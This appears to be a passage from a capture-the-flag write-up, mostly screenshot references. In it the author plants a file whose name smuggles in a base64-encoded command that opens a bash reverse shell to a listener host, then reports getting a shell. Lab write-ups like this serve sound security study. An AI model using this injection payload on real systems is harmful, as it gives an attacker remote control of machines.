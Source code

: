 ```bash

?>
```

![](img/2021-01-17-08-28-00.png)

I construct this payload: `$ touch "/var/www/html/uploads/; echo YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjEwLzQ0MyAwPiYxCg== | base64 -d | bash ;"`

![](img/2021-01-17-08-34-29.png)

![](img/2021-01-17-08-34-41.png)

I wait, and get a shell at my listener.

![](img/2021-01-17-08-35-06.png)
